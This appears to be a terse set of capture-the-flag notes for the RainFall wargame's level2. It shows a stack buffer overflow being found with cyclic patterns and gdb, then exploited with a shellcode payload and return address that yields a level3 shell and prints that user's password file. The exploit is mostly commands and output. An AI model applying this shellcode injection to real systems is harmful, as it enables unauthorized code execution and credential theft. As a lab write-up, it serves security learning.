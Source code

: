 


first step checking if the binary vulnerable or not

python -c 'print "A" * 100' | ./level2
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA

find where exactly does it crash

./pattern create 300
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag6Ag7Ag8Ag9Ah0Ah1Ah2Ah3Ah4Ah5Ah6Ah7Ah8Ah9Ai0Ai1Ai2Ai3Ai4Ai5Ai6Ai7Ai8Ai9Aj0Aj1Aj2Aj3Aj4Aj5Aj6Aj7Aj8Aj9

SIGSEGV in 0xb7ea4478 in ??



run <<< $(python -c 'print ("-" * 80 + "AAAA")')

"\x08\x04\x84\xe2"[::-1]

$(python -c 'print "-" * 80 + "\x08\x04\x84\xe2"[::-1] ')

there is no system() therefore no shell to jump to

cyclic 100
aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaa

Segmentation fault. 
0x61616175

unhex 61616175 | rev ; echo ""

uaaa

cyclic -l uaaa
80

manually calculating the distance between the buffer start address and the EIP

brek at  0x080484f2 <+30>:    mov    0x4(%ebp),%eax

 run <<< "AAAAAAAAAAAAAAAAAAAAAAAAAAAA"
 
info frame

eip at 0xbffff71c

(gdb) x/40wx $esp

0xbffff6b0:     0xbffff6cc      0x00000000      0x00000000      0xb7e5ec73

0xbffff6c0:     0x080482b5      0x00000000      0x00ca0000      0x41414141

(gdb) p/x 0xbffff6c0 + 12

$1 = 0xbffff6cc

(gdb) x 0xbffff6cc

0xbffff6cc:     0x41414141

(gdb) p/d 0xbffff71c - 0xbffff6cc

$3 = 80

shellcraft i386.linux.sh

6a68682f2f2f73682f62696e89e368010101018134247269010131c9516a045901e15189e131d26a0b58cd80

python3 -c 'import struct; print(struct.pack(">L", 0x44840408))'


other method:

r <<< "AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMNNNNOOOOPPPPQQQQRRRRSSSSTTTTUUUU"

 SIGSEGV  0x55555555
 
 (gdb) p/c 0x55555555 = U

echo  "AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMNNNNOOOOPPPPQQQQRRRRSSSSTTTT" | wc

81 - 1 = 80


===

define hook-stop

echo "---------------------------- esp -------------"
x/40wx $esp
echo "---------------------------- eip instructions -------------"
x/2i $eip

end


===

level2@RainFall:~$ (python -c 'print "\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80" + "A" * 59 + "\x08\x04\xa0\x08"[::-1]'; cat) | ./level2

pwd

/home/user/level2

whoami

level3

cat /home/user/level3/.pass

492deb0e7d14c4b5695173cca843c4384fe52d0857c2b0718e1a521a4d33ec02
